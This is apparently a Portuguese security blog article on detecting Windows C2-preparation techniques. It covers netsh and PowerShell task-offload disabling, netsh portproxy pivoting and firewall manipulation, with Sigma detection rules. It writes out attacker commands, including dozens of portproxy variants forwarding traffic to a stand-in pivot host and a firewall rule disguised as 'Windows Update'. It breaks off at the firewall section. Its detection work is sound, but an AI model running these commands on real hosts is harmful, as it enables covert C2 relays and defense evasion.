

O presente artigo tem finalidade exclusivamente educacional.<br>As técnicas, ferramentas e conceitos aqui apresentados têm o objetivo de promover o conhecimento, fortalecer a segurança da informação e educar profissionais e entusiastas da área.<br>Não incentivo nem apoio qualquer atividade ilegal.<br>O uso indevido das informações aqui descritas é de inteira responsabilidade do leitor.<br>Recomenda-se que todos os testes sejam realizados em ambientes controlados e com a devida autorização.




Eu recomendo a leitura com o tema claro, devido a quantidade de tópicos e subtópicos muito próximos um do outro.


# TL;DR

O artigo foca em **técnicas de preparação e facilitação de canais C2** que acontecem **antes** da comunicação efetiva com o servidor de comando e controle, muitas vezes usando ferramentas nativas do Windows (LOLBins).

Algumas técnicas abordadas e pontos de detecção importantes:

| #  | Técnica                                      | Ferramenta/Meio              | Objetivo principal                              | Nível de detecção | Principais eventos/indicadores para detectar                  | Dificuldade atual |
|----|----------------------------------------------|------------------------------|--------------------------------------------------|-------------------|------------------------------------------------------------------|-------------------|
| 1  | Desabilitar Task Offload (IPv4/IPv6)         | netsh                        | Estabilizar tráfego, evitar interferência HW    | Médio             | netsh … taskoffload=disabled                                    | Baixa–Média       |
| 2  | Desabilitar Task Offload / Checksum Offload  | PowerShell                   | Mesmo do item 1, mas via cmdlets modernos       | Médio–Alto        | Set-NetOffloadGlobalSetting, Disable-NetAdapterChecksumOffload | Baixa             |
| 3  | Port Forwarding / Port Proxy                 | netsh interface portproxy    | Pivoting interno, redirecionar tráfego C2       | Alto              | netsh … portproxy add … (muitas abreviações e posicionais)     | Média–Alta        |
| 4  | Manipulação de Firewall (regras + disable)   | netsh advfirewall            | Liberar tráfego C2 ou mascarar como legítimo    | Médio–Alto        | netsh advfirewall firewall add rule …                           | Média             |
| 5  | Manipulação de Firewall via PowerShell       | PowerShell cmdlets           | Mesmo do item 4                                 | Alto              | New-NetFirewallRule, Set-NetFirewallProfile -Enabled False      | Baixa–Média       |
| 6A | Pivoting clássico (netsh + implant)          | netsh + binário C2 (ex: Sliver) | Pivoting interno usando ferramenta nativa     | Alto              | netsh portproxy + binário em pasta suspeita + tráfego externo  | Média–Alta        |
| 6B | Pivoting nativo (Sliver native pivoting)     | Apenas binário do C2         | Pivoting sem deixar rastro óbvio no Windows     | Muito alto        | Quase nenhum log nativo comum → depende muito de EDR/XDR       | Muito alta        |

**Resumo das recomendações práticas mais importantes:**

1. **Prioridade alta hoje**  
   - Detectar **netsh portproxy** (todas as variações possíveis – tem dezenas)  
   - Detectar desativação de **task offload** (netsh e PowerShell)  
   - Monitorar criação/alteração de regras de **firewall** suspeitas (especialmente outbound para IPs específicos)

2. **Blind spots críticos atuais**  
   - Pivoting nativo (Sliver, Covenant, etc) → quase nenhum log nos canais tradicionais do Windows  
   - Redirecionamento via **netsh portproxy** em nível de kernel → **não aparece no Sysmon Event ID 3** (conexão real some)  
   - Uso de **localhost** no portproxy → conexão final praticamente invisível nos logs comuns

3. **Melhores estratégias de detecção realistas (ordem sugerida)**

   1. Regras robustas para **netsh** (portproxy, taskoffload, advfirewall)  
   2. Monitoramento comportamental de PowerShell administrativo (4104)  
   3. Correlação: processo em pasta suspeita + tráfego de saída para IP externo  
   4. Firewall/NGFW logs (tráfego real que saiu do host pivot)  
   5. Sysmon Event ID 13 (modificações no registry de portproxy)  
   6. (se possível) EDR/XDR com análise comportamental em kernel

# Introdução

É fato que constantemente atacantes evoluem suas técnicas de C2 para se evadir de detecções baseadas em assinaturas.

No entanto, muitas dessas detecções nascem da observação de ações preparatórias e auxiliares, que por si só não representam comunicação de C2, mas costumam antecedê-la ou viabilizá-la.

Quando transformadas em regras estáticas, essas observações se tornam frágeis e facilmente burláveis.

Isso ocorre porque atacantes combinam múltiplas técnicas para reduzir visibilidade e se misturar ao comportamento legítimo do sistema, incluindo:

- **Ofuscação de comandos:** PowerShell encriptado, Base64, variáveis
- **Living off the Land (LOLBins):** Ferramentas nativas do Windows (`netsh`, `wmic`, `reg`)
- **Protocolos legítimos:** HTTPS, DNS, WireGuard ocultam tráfego malicioso
- **Execução in-memory:** BOFs/COFFs evitam gravação em disco
- **Pivoting nativo:** Frameworks como Sliver eliminam dependência de ferramentas legadas

O resultado? **Blind spots** na detecção.

Este guia foca em **correlações contextuais** e **análise comportamental** para identificar atividades maliciosas ao longo da cadeia de ataque, independentemente da ferramenta, comando ou framework utilizado.

# Técnica 1: Netsh IPv4/IPv6 task offloading disabled - Comando via `cmd`

<kbd>**MITRE ATT&CK:** T1562.004 (Impair Defenses: Disable or Modify System Firewall)</kbd>

## O que essa técnica faz na prática?

Essa técnica **prepara o ambiente** para uma comunicação estável, previsível e menos visível entre o implante e o operador, atuando em três frentes principais:

### Padronização do comportamento de rede

Ao desabilitar offloads (`taskoffload`, `chimney`), o atacante força o processamento de pacotes para o **usermode e kernel padrão**, evitando variações causadas por aceleração de hardware, drivers ou NICs específicas.

Isso reduz:

* comportamento inconsistente de tráfego
* falhas em túneis ou canais encapsulados
* diferenças entre ambientes físicos e virtuais

### Redução de interferência de soluções de segurança

Mecanismos de inspeção baseados em driver, NDIS ou offloading podem:

* quebrar encapsulamentos
* interferir em túneis VPN
* alterar timing e fingerprint de tráfego

Ao desativar essas otimizações, o atacante ganha **mais controle sobre o fluxo real de pacotes**, facilitando tunelamento e comunicação disfarçada.

### Preparação para execução de implantes em usermode

A execução de binários com `/usermode` indica a intenção de:

* evitar privilégios elevados
* reduzir eventos ruidosos de segurança
* operar dentro do contexto do usuário comprometido

Isso é ideal para C2 modernos que:

* utilizam HTTPS, WebSocket ou túneis VPN
* não dependem de drivers
* operam inteiramente em espaço de usuário

OBS.: Nem sempre vemos o uso do comando `/usermode`, salvo em ataques onde o usuário tenta implementar um binário que inicia por _default_ em modo elevado, daí se usa o `/usermode` para ser executado somente naquele usuário sem elevar privilégios.

## Para que isso serve em um ataque?

Essa técnica **não é exploração** e **não é C2 direto**. Ela serve para:

* Estabilizar o canal de comunicação antes do beacon
* Aumentar confiabilidade do C2
* Reduzir falhas operacionais do implante
* Diminuir ruído de detecção associado a drivers ou kernelmode
* Preparar o host para tunelamento persistente

Em outras palavras é uma **fase de preparação do terreno**, garantindo que, quando o C2 entrar em operação, ele funcione de forma previsível e silenciosa.

## Por que isso pode passar despercebido?

* `netsh` é ferramenta administrativa legítima
* Alterações de stack de rede são raras, mas não imediatamente maliciosas
* Cada ação isolada parece “normal”
* Nem todo ambiente possui regras específicas de `netsh` nesse contexto

O risco está no **encadeamento**.

## O que o atacante faz?

O atacante modifica parâmetros globais do stack de rede do Windows, usando ferramentas administrativas nativas, para estabilizar o ambiente de rede e facilitar comunicações persistentes e controladas.

Um exemplo comum dessa preparação envolve comandos como:

```powershell
netsh int ipv4 set global taskoffload=disabled
netsh int ipv6 set global taskoffload=disabled
```

Esses comandos não criam um canal de C2 nem realizam comunicação externa. Eles modificam o comportamento do sistema, preparando o ambiente para etapas posteriores do ataque. Em **Relatórios de Incidentes** que eu já li, logo após esses comandos é comum iniciar a instalação de um serviço de VPN como o uso do **SoftEther**.

Esse comando é muito comum em ataques, contudo, podem existir variações desse comando, como mostro abaixo:

```powershell
# Existem pelo menos 9 variações desse comando
netsh interface ipv4 set global taskoffload=disabled
netsh i ipv4 set global taskoffload=disabled
netsh int ipv4 set global taskoffload=disabled
netsh interface ip set global taskoffload=disabled
netsh int ip set global taskoffload=disabled
netsh i ip set global taskoffload=disabled
netsh interface ipv6 set global taskoffload=disabled
netsh int ipv6 set global taskoffload=disabled
netsh i ipv6 set global taskoffload=disabled"
```

## Detecção no SIEM

A query abaixo captura o comportamento e as variações dos comandos.

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 1. </strong>Detecção do uso de netsh via Sysmon com Event ID 1 e Windows Security com EventID 4688.</i></figcaption>
</figure>

## Regra SIEM

```yml
title: Network Task Offload Disabled via Netsh
id: e2f28e22-1i6h-8g5j-3f7e-9h8i0j1k2l3g
status: experimental
description: Detecta desativação de task offload de rede usando comandos netsh. Pode ser usado para evitar inspeção de tráfego por hardware de rede ou melhorar compatibilidade com ferramentas de ataque.
references:
    - https://attack.mitre.org/techniques/T1562/004/
    - https://sandsoncosta.github.io/blog/detectando-tecnicas-de-c2/
author: Sandson Costa
date: 2026/01/12
tags:
    - attack.t1562.004
    - attack.defense_evasion
    - attack.command_and_control
    - attack.lateral-movement
    - attack.execution
logsource:
    product: windows
    category: process_creation
detection:
    selection_eventid:
        - 1
        - 4688
    selection_netsh:
        - Image|endswith: '\netsh.exe'
        - OriginalFileName: 'netsh.exe'
    selection_interface:
        CommandLine|contains:
            - 'interface'
            - 'int'
            - 'i'
    selection_protocol:
        CommandLine|contains:
            - 'ip'
    selection_set:
        CommandLine|contains|all:
            - 'set'
            - 'global'
            - 'taskoffload'
            - 'disabled'
    condition: selection_eventid and selection_netsh and selection_interface and selection_protocol and selection_set
falsepositives:
    - Network troubleshooting
    - Performance tuning
level: medium
```



Eu coloquei os offloads <code>taskoffload</code> e <code>chimney</code> porque em versões antigas do Windows, o comando <code>netsh int tcp set global chimney=disabled</code> funciona.
A partir do Windows 8 / Windows Server 2012, o TCP Chimney Offload foi oficialmente descontinuado pela Microsoft e substituído por melhorias no próprio TCP/IP stack. Se você executar comandos semelhantes ao <code>netsh</code> via cmlets powershell (mostro mais a frente), você verá que ele “existe” no PowerShell por legado de API, mas não existe mais operacionalmente nas versões modernas do Windows. O PowerShell usa <code>WMI / CIM (MSFT_NetOffloadGlobalSetting)</code>. Essa classe mantém campos legados por compatibilidade. O enum continua definido, mas não tem efeito prático.


# Técnica 2: Disable Task Offloading

<kbd>**MITRE ATT&CK:** T1562.004 (Impair Defenses: Disable or Modify System Firewall)</kbd>
<br>
<kbd>**MITRE ATT&CK:** T1059.001 (Command and Scripting Interpreter: PowerShell)</kbd>

É o equivalente à **Técnica 1: Netsh IPv4/IPv6 task offloading disabled**, porém, via PowerShell.

```powershell
Set-NetOffloadGlobalSetting -TaskOffload Disabled
Disable-NetAdapterChecksumOffload -Name "*"
```

## Detecção no SIEM

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 2. </strong>Detecção via PowerShell com Event ID 4104.</i></figcaption>
</figure>

## Regra SIEM

```yml
title: Network Adapter Checksum Offload Disabled via PowerShell
id: f3g39f33-2j7i-9h6k-4g8f-0i9j1k2l3m4h
status: experimental
description: Detecta desativação de checksum offload em adaptadores de rede via PowerShell. Usado para evasão de detecção em nível de hardware.
references:
    - https://attack.mitre.org/techniques/T1562/004/
author: Sandson Costa
date: 2025/01/16
tags:
    - attack.defense_evasion
    - attack.t1562.004
logsource:
    product: windows
    service: powershell
    definition: 'Requirements: Script Block Logging must be enabled'
detection:
    selection_cmdlet1:
        EventID: 4104
        ScriptBlockText|contains: 'Disable-NetAdapterChecksumOffload'
    selection_cmdlet2:
        EventID: 4104
        ScriptBlockText|contains|all:
            - 'Set-NetOffloadGlobalSetting'
            - 'TaskOffload'
            - 'Disabled'
    condition: selection_cmdlet1 or selection_cmdlet2
falsepositives:
    - Network optimization scripts
    - Legitimate performance tuning
level: medium
```



Cmdlets modernos do PowerShell, como <code>Set-NetOffloadGlobalSetting</code>, não possuem aliases curtos por decisão de design da Microsoft.<br>Diferente de cmdlets interativos (<code>Invoke-WebRequest</code>, <code>Get-ChildItem</code>), módulos administrativos baseados em CIM/WMI priorizam legibilidade, auditoria e consistência em ambientes corporativos.<br>Mesmo que aliases ou funções sejam criados pelo usuário, o PowerShell sempre registra o nome real do cmdlet executado nos logs (Event ID 4104), pois o engine expande o comando antes da execução. Esse comportamento impede a ofuscação de ações administrativas críticas por meio de aliases, sendo possível evitar o nome do cmdlet apenas através de chamadas diretas ao CIM ou manipulação de baixo nível.<br>
Portanto, para regras de Windows PowerShell, capturar os cmdlets adminsitrativos como os desse exemplo é mais que suficiente para criar uma regra de detecção.<br>
Mesmo que o atacante crie Alias para substituir o comando original, ainda assim pode ser capturado, pois o PowerShell expande o AST (Abstract Syntax Tree) e a engine loga o Command Invocation real.<br>
Para entender melhor sobre isso, recomendo ler o artigo abaixo.


###### **Leia também!**


Análise prática de um script PowerShell ofuscado, revelando passo a passo da sua lógica até executar calc.exe com Start-Process. Ideal para estudos de Threat Hunting.


# Técnica 3: Netsh Port Forwarding

<kbd>**MITRE ATT&CK:** T1090.001 (Proxy: Internal Proxy)</kbd>

## O que é?

`Netsh` permite criar _port forwarding_ no Windows, redirecionando tráfego de uma porta local para servidor remoto. Apesar de existirem técnicas mais modernas, **netsh continua sendo usado** por sua simplicidade e disponibilidade nativa.

## Como funciona?



O atacante cria uma regra de `portproxy` no host comprometido, permitindo que outras máquinas da rede acessem o C2 através dele.

## Por que ainda é usado?

- Nativo do Windows (não requer instalação)
- Funciona em ambientes legados (Windows 7+)
- Bypass de firewall interno
- Baixa complexidade de implementação
- Difícil rastrear sem logs adequados

## Como simular?

```powershell
# Criar port forwarding
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com

# Verificar regra criada
#netsh interface portproxy show all

# Permitir no firewall
# New-NetFirewallRule -DisplayName "Windows Update" -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
```
Esse comando também várias variações. Entender e saber as variações de comandos, podem evitar `blind spots` em regras.

Veja abaixo **52 variações** desse comando:

```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh i portproxy add v4tov4 listenport=8081 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh int portproxy add v4tov4 listenport=8082 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface p add v4tov4 listenport=8083 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface po add v4tov4 listenport=8084 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface port add v4tov4 listenport=8085 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy a v4tov4 listenport=8086 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy ad v4tov4 listenport=8087 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh i p a v4tov4 listenport=8088 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh int po ad v4tov4 listenport=8089 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh i port a v4tov4 listenport=8090 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy add v listenport=8091 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy add v4tov6 listenport=8092 listenaddress=0.0.0.0 connectport=443 connectaddress=2001:db8::1
netsh interface portproxy add v6tov4 listenport=8093 listenaddress=:: connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy add v6tov6 listenport=8094 listenaddress=:: connectport=443 connectaddress=2001:db8::1
netsh interface portproxy add v4tov4 l=8095 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy add v4tov4 listenport=8096 listena=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy add v4tov4 listenport=8097 listenaddress=0.0.0.0 connectp=443 connectaddress=pivot.sandsoncosta.com
netsh interface portproxy add v4tov4 listenport=8098 listenaddress=0.0.0.0 connectport=443 c=pivot.sandsoncosta.com
netsh interface portproxy add v4tov4 l=8099 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i p a v4tov4 l=8100 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i po ad v4tov4 l=8101 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh int p a v4tov4 l=8102 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh int po ad v4tov4 l=8103 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh int port a v4tov4 l=8104 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i port ad v4tov4 l=8105 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i po a v l=8106 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh int po ad v l=8107 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh interface portproxy add v4tov4 connectport=443 connectaddress=pivot.sandsoncosta.com listenport=8108 listenaddress=0.0.0.0
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8109 connectaddress=pivot.sandsoncosta.com connectport=443
netsh interface portproxy add v4tov4 connectaddress=pivot.sandsoncosta.com listenport=8110 listenaddress=0.0.0.0 connectport=443
netsh interface portproxy add v4tov4 connectp=443 c=pivot.sandsoncosta.com l=8111 listena=0.0.0.0
netsh interface portproxy add v4tov4 listena=0.0.0.0 l=8112 c=pivot.sandsoncosta.com connectp=443
netsh interface portproxy add v4tov4 c=pivot.sandsoncosta.com l=8113 listena=0.0.0.0 connectp=443
netsh i p a v l=8114 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i p a v connectp=443 c=pivot.sandsoncosta.com l=8115 listena=0.0.0.0
netsh i po ad v l=8116 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i p a v4tov6 l=8117 listena=0.0.0.0 connectp=443 c=2001:db8::1
netsh i p a v6tov4 l=8118 listena=:: connectp=443 c=pivot.sandsoncosta.com
netsh i p a v6tov6 l=8119 listena=:: connectp=443 c=2001:db8::
netsh int po ad v4tov6 connectp=443 c=2001:db8::1 l=8120 listena=0.0.0.0
netsh interface portproxy add v4tov4 l=8121 listena=127.0.0.1 connectp=443 c=pivot.sandsoncosta.com
netsh interface portproxy add v4tov4 l=8122 listena=192.168.1.100 connectp=443 c=pivot.sandsoncosta.com
netsh int p ad v connectp=443 c=pivot.sandsoncosta.com l=8123 listena=0.0.0.0
netsh i port a v4tov4 connectaddress=pivot.sandsoncosta.com connectport=443 listenport=8124 listenaddress=0.0.0.0
netsh interface portproxy add v l=8125 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i p a v4tov4 listenport=8126 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com
netsh i po a v c=pivot.sandsoncosta.com l=8127 connectp=443 listena=0.0.0.0
netsh int portproxy a v4tov4 l=8128 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i po ad v l=8129 listena=0.0.0.0 connectp=443 c=pivot.sandsoncosta.com
netsh i p a v4tov6 l=8130 listena=0.0.0.0 connectp=443 c=2001:db8::1
netsh i p a v c=pivot.sandsoncosta.com connectp=443 listena=0.0.0.0 l=8131
```

Em uma situação de **Resposta a Incidentes**, utilizar o comando abaixo vai detecar quais proxys estão configurados no ambiente:

```powershell
PS C:\Windows\system32> netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
0.0.0.0         8080        pivot.sandsoncosta.com 443
0.0.0.0         8081        pivot.sandsoncosta.com 443
0.0.0.0         8082        pivot.sandsoncosta.com 443
```

## Detecção no SIEM

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 3. </strong>Detecção via Sysmon e Windows Security.</i></figcaption>
</figure>

## Ponto de alerta

Existem outras formas de se executar o `netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=443 connectaddress=pivot.sandsoncosta.com`, utilizando comandos posicionais, como no exemplo do comando `netsh int portproxy add v4tov4 8082 pivot.sandsoncosta.com 443 0.0.0.0`.

O comando ser tão direto assim se dá pelo simples fato do `portproxy` aceitar parâmetros posicionais:

```powershell
Parameters:

       Tag              Value
       listenport     - IPv4 port on which to listen.
       connectaddress - IPv4 address to which to connect.
       connectport    - IPv4 port to which to connect.
       listenaddress  - IPv4 address on which to listen.
       protocol       - Protocol to use.  Currently only TCP is supported.
```

Se eu tiver contado certo, existem **26 variações** desse comando.

A melhor (ou melhores formas) de se capturar isso é por meio de UBA ou uma regex bruta pra identificar esse comportamento:

```yml
.*\s(add|ad|a)\s+v\S*\s+\S+\s+\S+\s+\S+\s+\S+.*
```

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 4. </strong>Regex que captura tanto as variações posicionais quanto as variações anteriores.</i></figcaption>
</figure>

## Regra SIEM

```yml
title: Windows - Suspicious Port Proxy Configuration via Netsh - BASELINE
id: a8b84a88-7e2d-4c1f-9b3a-5d4e6f7a8b9c
status: experimental
description: Detecta configuração de port proxy via netsh para redirecionamento de tráfego C2. Atacantes usam portproxy para criar túneis e ocultar comunicação com servidores C2.
references:
    - https://attack.mitre.org/techniques/T1562/004/
    - https://attack.mitre.org/techniques/T1090/001/
    - https://sandsoncosta.github.io/blog/detectando-tecnicas-de-c2/
author: Sandson Costa
date: 2025/01/16
tags:
    - attack.command_and_control
    - attack.t1090.001
    - attack.defense_evasion
    - attack.t1562.004
logsource:
    product: windows
    category: process_creation
detection:
    selection_netsh:
        - Image|endswith: '\netsh.exe'
        - OriginalFileName: 'netsh.exe'
    selection_interface:
        CommandLine|contains:
            - 'interface'
            - ' int '
            - ' i '
    selection_portproxy:
        CommandLine|contains:
            - 'portproxy'
            - 'portpr'
            - 'portp'
            - 'port'
            - 'por'
            - 'po'
            - 'p'
    selection_action:
        CommandLine|contains:
            - 'add'
            - 'ad'
            - 'a'
    selection_protocol:
        CommandLine|contains:
            - 'tov'
            - 'v'
    selection_params:
        CommandLine|contains:
            - 'listenport'
            - 'l='
            - 'connectport'
            - 'connectp='
    condition: selection_netsh and selection_interface and selection_portproxy and selection_action and selection_protocol and selection_params
falsepositives:
    - Legitimate network administration
    - VPN configurations
level: high
```



Para essa técnica não existe um cmdlet PowerShell nativo que faça exatamente o que <code>netsh portproxy</code> faz de forma simples.
<br>
Existem formas de se fazer, como por exemplo:
<br>
<ul>
  <li>
    Chamar o <code>netsh</code> via PowerShell, o que geraria os eventos EID 4688 e EID 1 de qualquer forma.
  </li>
  <li>
    Usar New-NetFirewallRule + NAT. Requer múltiplos comandos e configuração de NAT completo. Geralmente esse conjunto é usado para VMs... O que em um exercício de Red Team ou ataque real, não é usado, pelo menos eu nunca vi. Mas existe possibilidade pra isso.
  </li>
  <li>
    Usar proxy reverso em PowerShell com script customizado... Um script que cria um TCP Relay. É mais complexo e menos comum, mas pra quem tem tempo...
  </li>
</ul>
Veja o uso do netsh sendo chamado via powershell: 
<figure style="text-align: center;">
  
</figure>


# Técnica 4: Netsh Firewall Advfirewall Manipulation

<kbd>**MITRE ATT&CK:** T1562.004 (Impair Defenses: Disable or Modify System Firewall)</kbd>

## O que é?

Uso do `netsh advfirewall` para modificar regras de firewall e permitir comunicação C2, método ainda prevalente em ataques por ser nativo e poderoso, permitir programa em conexão ou simplesmente desabilitar tudo.

## Como funciona?

